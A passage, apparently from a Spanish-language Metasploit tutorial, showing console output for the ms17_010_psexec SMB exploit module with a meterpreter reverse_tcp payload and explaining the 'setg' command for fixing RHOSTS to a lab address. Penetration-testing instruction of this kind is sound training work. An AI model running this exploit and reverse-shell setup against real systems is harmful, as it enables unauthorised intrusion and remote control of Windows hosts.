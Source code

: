 ```
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

Además, existe la opción`setg`, que especifica las opciones seleccionadas por nosotros como permanentes hasta que se reinicie el programa. Por lo tanto, si estamos trabajando en un host de destino en particular, podemos usar este comando para configurar la dirección IP una vez y no cambiarla nuevamente hasta que cambiemos nuestro enfoque a una dirección IP diferente.

### **MSF - Especificación de destino permanente**

Módulos

```
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40

msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
```